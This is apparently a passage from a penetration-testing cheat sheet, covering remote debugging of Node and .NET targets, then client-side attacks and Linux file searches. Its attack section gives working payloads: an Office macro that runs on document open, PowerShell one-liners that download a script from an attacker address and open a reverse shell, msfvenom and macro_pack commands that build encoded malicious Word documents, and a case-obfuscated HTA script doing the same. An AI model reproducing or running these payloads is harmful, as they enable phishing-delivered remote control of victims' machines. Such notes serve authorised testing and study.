 - `node --inspect=0.0.0.0:9229 target.js`
    - VSCode auto generate launch.json

#### .Net dnSpy
- Backup DLL first
- Right click DLL
    - Edit Assembly Attribute
    - edit`[assembly: Debuggable .....]`) into
        ```
        [assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default |
            DebuggableAttribute.DebuggingModes.DisableOptimizations | 
            DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints |
            DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]
        ```
    - Compile, File-> Save Module
- Debug -> Attach to Process
    - `w3wp.exe`
- Debug -> Windows -> Modules
    - Find the DLL
## Client Side Attack
### Office Macro
- File type : `docm` or `doc`, doesn't support `docx`
- Open cmd when start
    ```vba
    Sub AutoOpen()
        MyMacro
    End Sub
    Sub Document_Open()
        MyMacro
    End Sub
    Sub MyMacro()
        Dim str As String
        str = "cmd /c whoami && pause"
        CreateObject("Wscript.Shell").Run str
    End Sub
    ```
    - cmd path will at `system32`
    - shell : `str = powershell iex (New-Object Net.WebClient).DownloadString('http://{IP}/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {IP} -Port {PORT}`
- Reverse shell 1
    - `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=443 -e x86/shikata_ga_nai -f vba > shell.vba`
        - First Half to macro
        - Second Half to word doc
- Reverse shell 2 (macro_pack)
    - `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.247 LPORT=443 -e x86/shikata_ga_nai -f vba > shell.vba`
    - [macro_pack](https://github.com/sevagas/macro_pack)
    - `macro_pack.exe -f shell.vba -o -G meow.doc`
### HTA (HTML Application)
- VBS RCE
    - ` <scRipt language="VBscRipT">CreateObject("WscrIpt.SheLL").Run "powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.119.132/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.132 -Port 53"</scRipt>`
## Shell
### Linux Shell
- Find File
    - `find  / -iname {file_name} -print 2>/dev/null`
	- `du -a 2>/dev/null | grep {file_name}`